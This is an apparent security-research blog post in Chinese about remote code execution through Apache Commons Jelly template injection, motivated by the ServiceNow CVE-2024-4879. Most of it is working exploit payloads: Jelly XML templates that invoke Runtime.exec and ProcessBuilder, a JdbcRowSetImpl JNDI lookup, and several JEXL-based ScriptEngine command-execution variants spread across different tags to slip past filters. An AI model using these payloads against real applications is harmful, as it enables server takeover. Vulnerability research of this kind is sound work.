







# Apache Common Jelly Remote Code Execution-先知社区

> **来源**: https://xz.aliyun.com/news/16216  
> **文章ID**: 16216

---

Nivia@深蓝攻防实验室

### 前言

在前段时间的ServiceNow漏洞 (CVE-2024-4879)中用到了Jelly模版注入，公开的POC中仅做到了窃取敏感信息，且用到了一些ServiceNow中的全局对象，感觉并不是很优雅。想着学习一下，并探索出一些高质量paylaod，也有了后续国城杯Jelly一题。  
其本质还是该XML引擎解析导致的漏洞，跟去年pyn3rd师傅研究的SCXML类似：<https://blog.pyn3rd.com/2023/02/06/Apache-Commons-SCXML-Remote-Code-Execution/>

### 准备

由于网上可供学习的文章比较少，这里可以官方文档去学习（<https://commons.apache.org/proper/commons-jelly/index.html）>

官网中用到的Demo迁移至：<https://svn.apache.org/repos/asf/commons/_moved_to_git/jelly/>

依赖

```
<dependency>
        <groupId>commons-jelly</groupId>
        <artifactId>commons-jelly</artifactId>
        <version>1.0</version>
</dependency>
```

测试用例

```
JellyContext context = new JellyContext();
Script script = context.compileScript("example.jelly");
script.run(context, XMLOutput.createXMLOutput(System.out));
```

剩下的就是探索example.jelly模版文件该怎么写的问题了。一些解析流程可以自行调试

### Jelly Core

Jelly定义了很多Core Tags，其定义在`org.apache.commons.jelly.tags.core`下，其对应的执行位置都在`doTag`方法下。

**Runtime && ProcessBuilder**

如果是想执行系统命令，很容易会想到Runtime跟ProcessBuilder

```
Runtime.getRuntime.exec(cmd)
new ProcessBuilder(cmd).strat()
```

去检索Tag可以发现NewTag，InvokeTag，InvokeStaticTag跟其相关

那么Runtime可以使用InvokeTag，InvokeStaticTag标签去执行

```
<?xml version="1.0" encoding="utf-8"?>
<jelly xmlns="jelly:core">
    <invokeStatic var="Runtime" className="java.lang.Runtime" method="getRuntime"></invokeStatic>
    <invoke method="exec" var="exec" on="${Runtime}">
        <arg type="java.lang.String" value="open -a Calculator"></arg>
    </invoke>
</jelly>
```

ProcessBuilder自然就可以用NewTag



可以看到NewTag也可以实例化有参构造方法，实例化后调用start即可

```
<?xml version="1.0" encoding="utf-8"?>
<jelly xmlns="jelly:core">
    <new var="list" className="java.util.ArrayList"></new>
    <invoke var="add" method="add" on="${list}">
        <arg value="open"></arg>
    </invoke>
    <invoke var="add" method="add" on="${list}">
        <arg value="-a"></arg>
    </invoke>
    <invoke var="add" method="add" on="${list}">
        <arg value="Calculator"></arg>
    </invoke>

    <new var="exec" className="java.lang.ProcessBuilder">
        <arg value="${list}"></arg>
    </new>

    <invoke on="${exec}" method="start"></invoke>
</jelly>
```

**调用setter**

相关的Tag有setTag跟setPropertiesTag，执行setter的逻辑位于`BeanUtils#setProperty`

```
<?xml version="1.0" encoding="utf-8"?>
<jelly xmlns="jelly:core">
    <new className="com.sun.rowset.JdbcRowSetImpl" var="jndi"/>
    <setProperties object="${jndi}" dataSourceName="ldap://localhost:9999/NIVIA"/>
    <setProperties object="${jndi}" autoCommit="1"/>
</jelly>

或者

<?xml version="1.0" encoding="utf-8"?>
<jelly xmlns="jelly:core">
    <new className="com.sun.rowset.JdbcRowSetImpl" var="jndi"/>
    <set target="${jndi}" property="dataSourceName" value="ldap://localhost:9999/NIVIA"></set>
    <set target="${jndi}" property="autoCommit" value="1"></set>
</jelly>
```



当然上面的两个Tag都需要先使用newTag进行实例化，useBean可以很好的解决这个问题

```
<useBean dataSourceName="ldap://localhost:9999/NIVIA" class="com.sun.rowset.JdbcRowSetImpl" var="jndi" autoCommit="1"/>
```

但这里会有一个setter方法执行顺序的问题，上述示例不行，所以上述的两个示例拆分开写的原因

**套娃**

应该还可以结合importTag和includeTag进行套娃，减少一些关键标签的出现



**利用Jexl**

Jelly在执行Jexl表达式上非常灵活，在官方文档中，exprTag中的value属性可以设置要计算的Jexl表达式

```
<?xml version="1.0" encoding="utf-8"?>
<jelly xmlns="jelly:core">
    <getStatic var="str" className="org.apache.commons.jelly.servlet.JellyServlet" field="REQUEST"/>
    <expr value="${str
    .class
    .forName('javax.script.ScriptEngineManager').newInstance()
    .getEngineByName('js')
    .eval('java.lang.Runtime.getRuntime().exec(" open -a Calculator ")')}"></expr>
</jelly>
```

那么只有exprTag支持嘛？来看`CoreTagLibrary`



所以有

```
<?xml version="1.0" encoding="utf-8"?>
<jelly xmlns="jelly:core">
    <getStatic var="str" className="org.apache.commons.jelly.servlet.JellyServlet" field="REQUEST"/>
    <out value="${str
    .class
    .forName('javax.script.ScriptEngineManager').newInstance()
    .getEngineByName('js')
    .eval('java.lang.Runtime.getRuntime().exec(" open -a Calculator ")')}"></out>
</jelly>
```

当然支持Jexl表达式的远不止于此，其中还包括conditional tags，像break、if等等，他们都允许计算Jexl表达式  
这里以if为例子



那么可以有

```
<?xml version="1.0" encoding="utf-8"?>
<j:jelly xmlns:j="jelly:core">
    <j:getStatic var="str" className="org.apache.commons.jelly.servlet.JellyServlet" field="REQUEST"/>
    <j:break test="${str
    .class
    .forName('javax.script.ScriptEngineManager').newInstance()
    .getEngineByName('js')
    .eval('java.lang.Runtime.getRuntime().exec(" open -a Calculator ")')}"></j:break>
</j:jelly>
```

当然还有，invokeBody方法会去解析标签体内容，这里同样会支持Jexl，后续调用栈长这样



比如whitespace



利用whitespace标签也可以实现利用Jexl来rce

```
<?xml version="1.0" encoding="utf-8"?>
<j:jelly xmlns:j="jelly:core">
    <j:getStatic var="str" className="org.apache.commons.jelly.servlet.JellyServlet" field="REQUEST"/>
    <j:whitespace>${str
    .class
    .forName('javax.script.ScriptEngineManager').newInstance()
    .getEngineByName('js')
    .eval('java.lang.Runtime.getRuntime().exec(" open -a Calculator ")')}</j:whitespace>
</j:jelly>
```

### **Tag Libraries**

这部分的话需要额外引入依赖，可以结合其它Tag Libraries且没有被限制的Tag实现危险操作。

例如

```
<?xml version="1.0" encoding="utf-8"?>
<j:jelly xmlns:j="jelly:core" xmlns:define="jelly:define">
    <j:getStatic var="str" className="org.apache.commons.jelly.servlet.JellyServlet" field="REQUEST"/>
    <define:taglib uri="${str
    .class
    .forName('javax.script.ScriptEngineManager').newInstance()
    .getEngineByName('js')
    .eval('java.lang.Runtime.getRuntime().exec(" open -a Calculator ")')}">
    </define:taglib>
</j:jelly>
```

这里就不展开了
